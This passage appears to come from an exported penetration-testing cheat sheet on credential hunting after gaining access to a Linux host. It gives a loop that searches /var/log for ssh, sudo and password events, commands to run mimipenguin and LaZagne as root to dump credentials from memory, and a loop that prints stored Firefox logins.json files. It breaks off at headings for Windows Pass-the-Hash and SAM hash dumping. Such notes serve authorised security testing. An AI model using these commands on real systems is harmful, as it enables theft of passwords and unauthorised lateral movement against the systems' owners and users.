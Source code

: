 | /var/log/mysqld.log | All MySQL server related logs. |

```bash
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

## → **Memory and Cache (root priv. required)**

### `mimipenguin`

```bash
sudo python3 mimipenguin.py
```

### [→ `LaZagne`](Password%20Attacks%200899fa06ab2c406f9afa4fae4b6cf65b.md)

```python
sudo python2.7 laZagne.py all
```

## → Browsers

### find **Firefox Stored Credentials**

```python
ls -l .mozilla/firefox/ | grep default
```

```python
for dir in `ls .mozilla/firefox/ | grep default `; do cat ".mozilla/firefox/$dir/logins.json"; done
```

### decrypt firefox credentials (https://github.com/unode/firefox_decrypt)

# —————————————————————————————————————————————————————————

# Windows Lateral Movement

# ⇒ Pass the Hash (PtH)

## Dumping Hashes from

### SAM
